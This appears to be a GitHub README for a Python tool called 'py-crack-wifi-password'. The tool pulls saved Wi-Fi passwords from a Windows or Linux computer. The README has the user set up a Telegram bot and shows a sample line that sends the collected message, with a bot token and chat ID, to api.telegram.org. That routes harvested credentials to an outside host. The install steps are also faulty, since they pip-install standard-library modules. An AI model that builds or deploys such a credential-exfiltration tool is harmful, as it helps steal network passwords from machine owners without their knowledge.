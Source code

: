 # py-crack-wifi-password
A tool to crack Wi-Fi passwords on the computer. Python based

Using this tool, you can crack the Wi-Fi password registered on the computer.

How to run:
Install the listed libraries first.

In Windows:
pip install requests
pip install platform
pip install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open cmd and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.

In Linux:
pip3 install requests
pip3 install platform
pip3 install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open terminal and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.

# Communication with the programmer
- Email : norouzif556@gmail.com
- Telegram : https://t.me/farbod_mi & https://t.me/farbod_mi1

